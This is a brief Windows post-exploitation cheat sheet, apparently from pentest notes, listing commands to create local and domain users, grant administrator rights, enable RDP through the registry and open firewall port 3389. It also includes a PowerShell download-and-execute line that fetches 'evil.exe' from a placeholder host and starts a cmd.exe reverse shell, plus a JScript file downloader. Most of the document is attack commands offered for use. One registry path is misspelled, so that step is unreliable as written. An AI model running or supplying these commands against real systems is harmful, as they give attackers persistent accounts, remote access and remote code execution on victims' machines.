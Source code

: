 # Windows

## users

Add user 
```
net user [username] [password] /ADD
```

Add user to domain 
```
net user [username] [password] /ADD /DOMAIN
```

Add user as admin
```
net localgroup administrators [username] /add
```

## RDP
- Enable RDP
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

- Add firewall authorisation
```
netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow 
program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the 
Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes 
profile=private,domain localport=3389 protocol=tcp
```

## File Upload

- PowerShell download and execute
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile 
New-Object System.Net.WebClient.DownloadFile('http://x.x.x.x/evil.exe','evil.exe'); 
evil.exe x.x.x.x 443 -e cmd.exe
```

- VBS file upload
  - fu.js
```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1"); 
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false); 
WinHttpReq.Send(); 
WScript.Echo(WinHttpReq.ResponseText); 
```
  - execute
```
cscript /nologo fu.js http://ip/bullshit > uploaded_file
```
